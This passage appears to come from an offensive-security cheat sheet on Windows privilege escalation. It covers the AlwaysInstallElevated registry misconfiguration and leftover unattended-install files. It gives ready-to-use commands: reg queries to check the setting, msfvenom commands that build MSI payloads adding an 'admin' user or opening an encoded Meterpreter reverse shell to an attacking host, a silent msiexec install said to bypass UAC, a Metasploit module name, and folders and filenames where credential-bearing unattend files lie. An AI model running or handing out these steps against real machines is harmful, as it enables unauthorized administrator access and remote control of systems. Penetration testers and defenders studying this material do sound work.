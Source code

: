 Windows registry has a setting that allows non-privileged users to install Microsoft Windows Installer Package Files \(MSI\) with elevated system permissions. There are 2 registry entries which have to be set to `1` to enable this setting.

Check the values of the registry keys:

```text
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

If AlwaysInstallElevated is enabled in the registry entries you can create an installer payload with `msfvenom` \(again assuming there is no antivirus\):

```text
msfvenom -p windows/adduser USER=admin PASS=password -f msi –o filename.msi
```

Generate a payload with a reverse shell:

```text
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[attacking host] LPORT=443 -f msi -o filename.msi
```

Then use the following command to execute the msi installer file:

```text
msiexec /quiet /qn /i C:\Users\filename.msi
```

A summary of these flags:

* `/quiet` will bypass User Account Control \(UAC\)
* `/qn` specifies not to use a GUI
* `/i` is to perform a regular installation of the package

For the lazy, here's a Metasploit module: `exploit/windows/local/always_install_elevated`

## Unattended Installs

Unattended Installs allows administrators to deploy Windows in a hands-off way. However, if they don't clean up after this process, an XML file called Unattend is left on the local system, full of configuration settings and possibly local account configurations \(e.g. Administrators\).

Unattend files are often found in these folders:

```text
C:\Windows\Panther\
C:\Windows\Panther\Unattend\
C:\Windows\System32\
C:\Windows\System32\sysprep\
```

Common filenames:

```text
unattend.xml
sysprep.xml
sysprep.inf
```
